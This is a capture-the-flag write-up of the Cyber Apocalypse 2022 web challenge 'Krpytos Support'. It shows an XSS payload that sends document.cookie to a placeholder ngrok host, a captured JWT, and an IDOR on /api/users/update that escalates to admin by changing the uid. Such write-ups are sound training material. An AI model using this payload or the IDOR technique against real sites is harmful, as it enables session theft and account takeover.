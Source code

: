```yaml
---
layout: load_md
title: The White Circle | Cyber Apocalypse 2022 | Krpytos Support Writeup
desc: "The White Circle is a community for Cyber/Information Security students, enthusiasts and professionals. You can discuss anything related to Security, share your knowledge with others, get help when you need it and proceed further in your journey with amazing people from all over the world."
image: images/twc_og_banner.jpg
ctf: Cyber Apocalypse 2022
parent: cyber_apocalypse_2022
category: web
challenge: Krpytos Support
tags: "web, twh, api, idor"
date: 2022-05-21T00:00:00+00:00
last_update: 2022-05-21T00:00:00+00:00
---
```


<h1 class="heading card-title white-text">Cyber Apocalypse 2022</h1>

## Krpytos Support
> Solved By : thewhiteh4t

In this one we land on a support page where we can send a POST request, it also contains a backend button which takes us to a login page…

first I thought its a cookie stealing challenge so I send the following payload : 

```html
<img src=x onerror=this.src='<NGROK-LINK-HERE>/?'+document.cookie;>
```

and I got a JWT : 

```
session=eyJhbGciOiJIUzI1NiIsInR5cCI6IkpXVCJ9.eyJ1c2VybmFtZSI6Im1vZGVyYXRvciIsInVpZCI6MTAwLCJpYXQiOjE2NTI1MzQ4ODV9.JO12yEA44QxXgfUmL3n6Sm4Et2AJc5rkvXkvSMdmFOI
```

decoded :

```
{
  "username": "moderator",
  "uid": 100,
  "iat": 1652534885
}
```

and I got two interesting things here, now the cookie did not work for login for some reason so I went back to enum and found an API endpoint :

```
/api/users/update
```

using XHR I sent the following request to change the password :

![](https://i.imgur.com/mVy9Zs9.png)

logged in with the new password :

![](https://i.imgur.com/lkqwQPZ.png)

but moderator doesn’t have the flag so I had to escalate to admin…

using the same payload above I just changed the `uid` from 100 to 1 and logged in again, I could have got it one go but well… 

![](https://i.imgur.com/JI1lO3O.png)

